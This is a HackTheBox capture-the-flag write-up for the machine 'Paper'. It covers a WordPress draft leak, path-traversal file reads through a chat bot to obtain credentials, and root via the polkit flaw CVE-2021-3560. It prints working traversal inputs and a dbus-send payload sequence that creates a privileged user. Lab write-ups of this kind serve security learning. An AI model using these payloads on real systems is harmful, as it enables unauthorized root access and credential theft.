# HTB_Paper_writeup
Write-up of the machine "Paper" on HackTheBox. This machine include some LFI(I guess). This machine took me two days to complete and I learned some things interesting.

## Score:
**Points: 20**

## Solution:

## WEB
When we start the machine it give us an IP address (in my case 10.10.11.143). It's a default page of an apache server. We can ran nmap, nikto to see if there's any suspicious stuff.


Looking at `nikto.log` we can see it captured an "Uncommon header 'x-backend-server', with contents: office.paper". We also could find this 'x-backend-server' using `whatweb` tool.


Good, now we need to add the value of that header in our `/etc/hosts` file. So that we can access the site http://office.paper.


Acessing this site, we come across to an Wordpress blog. Going straight to the point, in the post "Feeling Alone!" we can see that nick has commented to Michael(the owner) that he sould "remove the secret content from the drafts" since they are not secure as he thinks. Using Wappalyzer extension (or just going to page source), it's possible to see that the version of wordpress is 5.2.3, which is vulnerable.



The exploit says that if we insert `?static=1` to a wordpress URL, we can leak its secret content. Trying it...


It give us a secret link to registration to a chat system. So, adding this another subdomain in the hosts file.


Copy and paste the link, it take us to a registration page where we can simply create an account an enter to the chat. 
 


Here we are introduced to a bot(recyclops) which can give us some informations to us, but we are going to use only two commands: "file" and "list" (`cat` and `ls` command respectively). We can use the bot by just going to chat in direct message and type "recyclops list", and it will list the files on the present directory. But there's a vulnerability here, if we type "recyclops file ../../../etc/passwd" it'll return to us the file passwd. Great, now we just need to "leverage"!.


In this part I didn't know what to do after the LFI, so just googling i found a site which tells how to escalate this. The file /proc/self/environ has some informations of environment of the process. Just type "recyclops ../../../proc/self/environ". We got it! Now we have the credentials of the user "dwight".

 

Now we can use SSH to connect to dwight terminal. We are in! 

## Privilege escalation

Here we already have the user flag. Now we need to escalate privilege to root. 


In the user directory it has the linpeas.sh tool, but it won't be so usefull. There's a file called test.sh, that give us an clue of what we will explore. That vulnerability has an CVE -- `CVE-2021-3560` --. That script will not do, but there's a video uploaded by the github itself that explain this [CVE](https://www.youtube.com/watch?v=QZhz64yEd0g). I'll spare you the explanations of how the vulnerability works, as the video does it much better.


We're gonna use these payloads in sequence;

```
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:boris string:"Boris Ivanovich Grishenko" int32:1 & sleep 0.008s ; kill $!
----------------------------------------------
id boris --> verify if the user has been created
----------------------------------------------
openssl passwd -5 iaminvincible! --> create a hash for the password "iaminvincible!"
----------------------------------------------
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1002 org.freedesktop.Accounts.User.SetPassword string:'$5$Fv2PqfurMmI879J7$ALSJ.w4KTP.mHrHxM2FYV3ueSipCf/QSfQUlATmWuuB' string:GoldenEye & sleep 0.008s ; kill $!
```

Note that it may fails sometimes, it's normal, just persist. After run the commands above, just type `su - boris` and type the password, once loged in just type `sudo su`. And We Got It! Now submit the root flag and root the machine.


--If you have any questions about the vulnerability exploit, visit the link that I left linked. 

## References:

https://www.youtube.com/watch?v=QZhz64yEd0g

https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/

https://infosecwriteups.com/leveraging-lfi-to-rce-in-a-website-with-20000-users-129050f9982b
